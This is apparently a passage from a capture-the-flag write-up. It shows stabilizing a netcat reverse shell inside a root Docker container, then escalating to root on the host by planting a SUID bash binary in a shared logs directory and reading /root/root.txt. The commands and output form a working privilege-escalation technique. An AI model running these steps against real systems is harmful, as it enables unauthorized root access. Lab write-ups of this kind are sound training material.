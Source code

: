 ![Desktop View](/login-port-8080-claire.webp){: width="1200" height="450" }

### stabilizing our shell

```console
/usr/bin/script -qc /bin/bash /dev/null
root@de0610f51845:/usr/src/app# export TERM=xterm
export TERM=xterm
root@de0610f51845:/usr/src/app# ^Z
[1]+  Stopped                 nc -lvnp 9002
$ stty raw -echo; fg
nc -lvnp 9002

root@de0610f51845:/usr/src/app# id
uid=0(root) gid=0(root) groups=0(root)
```
## The Shell Root

### Creating a SUID binary inside /logs

Copying the /bin/bash inside /home/claire-r/timeTracker-src/logs from the host.

```console
claire-r@ctf:~/timeTracker-src/logs$ cp /bin/bash .
```
From the container, changing the owner for bash binary to root and setting the suid bit.

```console
root@de0610f51845:/logs# chown root:root bash
root@de0610f51845:/logs# chmod 4777 bash
```
Now we have a bash binary with suid bit set.

```console
claire-r@ctf:~/timeTracker-src/logs$ ls -la 
total 1168
drwxrw-rw- 2 claire-r claire-r    4096 Jan 19 23:36 .
drwxrwxr-x 6 claire-r claire-r    4096 Dec 22  2022 ..
-rwsrwxrwx 1 root     root     1183448 Jan 19 23:36 bash
-rw-r--r-- 1 root     root         130 Jan 19 23:30 tt.log
```

### Get the shell

```console
claire-r@ctf:~/timeTracker-src/logs$ ./bash -p
bash-5.0# id
uid=1001(claire-r) gid=1001(claire-r) euid=0(root) groups=1001(claire-r)
bash-5.0# wc -c /root/root.txt
38 /root/root.txt
```